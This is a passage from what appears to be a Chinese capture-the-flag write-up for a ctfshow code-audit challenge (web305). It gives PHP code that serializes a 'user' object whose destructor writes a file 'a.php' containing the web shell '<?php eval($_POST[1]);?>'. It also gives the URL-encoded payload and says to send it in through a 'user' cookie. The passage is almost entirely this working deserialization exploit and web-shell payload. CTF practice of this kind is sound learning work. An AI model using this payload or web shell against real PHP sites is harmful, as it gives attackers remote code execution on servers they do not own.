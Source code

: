 ```
class user{
    public $username;
    public $password;
    public function __construct($u,$p){
        $this->username=$u;
        $this->password=$p;
    }
    public function __destruct(){
        file_put_contents($this->username, $this->password);
    }
}

$ctfshow = new user('a.php','<?php eval($_POST[1]);?>');
var_dump(urlencode(serialize($ctfshow)));
```

得到结果为：

```
O%3A4%3A%22user%22%3A2%3A%7Bs%3A8%3A%22username%22%3Bs%3A5%3A%22a.php%22%3Bs%3A8%3A%22password%22%3Bs%3A24%3A%22%3C%3Fphp+eval%28%24_POST%5B1%5D%29%3B%3F%3E%22%3B%7D
```

通过名为user的cookie传入。

![](.\代码审计\web305\挂马.png)
